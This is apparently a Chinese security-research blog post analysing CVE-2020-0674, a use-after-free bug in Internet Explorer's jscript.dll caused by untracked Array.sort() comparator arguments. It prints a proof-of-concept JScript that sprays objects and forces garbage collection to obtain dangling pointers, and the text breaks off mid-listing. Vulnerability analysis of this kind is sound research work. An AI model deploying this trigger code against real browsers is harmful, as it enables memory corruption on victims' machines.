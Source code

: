 > 原文链接: https://www.anquanke.com//post/id/205224 


# IE jscript.dll释放后重用漏洞（CVE-2020-0674）分析


                                阅读量   
                                **303885**
                            
                        |
                        
                                                            评论
                                <b>
                                    <a target="_blank">4</a>
                                </b>
                                                                                    



[![](https://p1.ssl.qhimg.com/t016d4d03bfcf9a4dfb.jpg)](https://p1.ssl.qhimg.com/t016d4d03bfcf9a4dfb.jpg)

> 银雁冰@猎影实验室

## 前言

CVE-2020-0674是360和Google在2020年初抓到的一个IE 0day，它是一个位于jscript.dll模块的UAF(释放后重用)漏洞。最近，该漏洞的一份完整利用代码在github被公布，猎影实验室对此进行了分析。



## 漏洞成因

该漏洞的成因为：若Array.sort()被调用时传入一个比较函数，jscript内部没有将此比较函数的两个参数加入GC，导致可以在对象被释放后得到悬垂指针。笔者去年曾分析过一个此类漏洞，当时就预测此类漏洞后面还会出现。

我们一起来看一下这个漏洞的PoC：

```
&lt;script language="JScript.Compact"&gt;

var depth = 0;
var spray_size = 10000;
var spray = new Array();
var sort = new Array();
var total = new Array();

for(i = 0; i &lt; 110; i++) sort[i] = [0, 0];
for(i = 0; i &lt; spray_size; i++) spray[i] = new Object();

function uaf(untracked_1, untracked_2) `{`
    untracked_1 = spray[depth * 2];
    untracked_2 = spray[depth * 2 + 1];
if(depth &gt; 50) `{`
        spray = new Array();
        CollectGarbage();
        total.push(untracked_1);
        total.push(untracked_2);
return 0;
    `}`
    depth += 1;
    sort[depth].sort(uaf);
return 0;
`}`

sort[depth].sort(uaf); 
for(i = 0; i &lt; total.length; i++) `{`
typeof total[i];
```